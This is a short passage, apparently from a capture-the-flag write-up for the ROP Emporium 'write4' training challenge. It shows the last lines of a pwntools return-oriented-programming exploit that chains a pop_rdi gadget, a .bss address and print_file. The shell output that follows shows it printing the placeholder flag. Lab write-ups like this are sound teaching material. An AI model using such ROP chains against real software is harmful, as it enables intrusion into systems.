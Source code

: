 ```python
payload += pop_rdi
payload += bss_addr
payload += print_file
  
p.sendlineafter(b'> ', payload)
print(p.recvall())
```

```sh
$ ./exploit.py
[+] Starting local process '/home/vein/sec/rop_emporium/write4/write4': pid 42200
[+] Receiving all data: Done (33B)
[*] Stopped process '/home/vein/sec/rop_emporium/write4/write4' (pid 42200)
b'ROPE{a_placeholder_32byte_flag!}\n'
```
